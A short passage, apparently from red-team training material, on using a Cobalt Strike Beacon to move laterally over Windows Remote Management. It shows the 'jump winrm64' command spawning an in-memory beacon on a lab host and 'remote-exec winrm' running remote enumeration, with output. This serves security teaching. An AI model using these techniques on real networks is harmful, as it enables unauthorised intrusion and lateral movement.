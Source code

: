 # Windows Remote Management

Windows Remote Management (WinRM) is Microsoft's implementation of the WS-Management protocol, and allows remote management of computers via PowerShell. This option executes a payload entirely within memory, without requiring it to be dropped to disk.

```batch
beacon> jump winrm64 lon-ws-1 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337) on lon-ws-1 via WinRM
[+] established link to child beacon: 10.10.120.10
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/d19df745b909a6340e77c6f5751916e9.png" alt="" width="100%"><figcaption></figcaption></figure>

> Beacons executed via WinRM will run in the context of the current or impersonated user.&#x20;

WinRM is also the only `remote-exec` method that returns output, so it could be used for remote enumeration.

```batch
beacon> remote-exec winrm lon-ws-1 net sessions
[*] Tasked beacon to run 'net sessions' on lon-ws-1 via WinRM

Computer               User name            Client Type       Opens Idle time

-------------------------------------------------------------------------------
\\10.10.120.101        rsteel                                     1 00:00:07
```
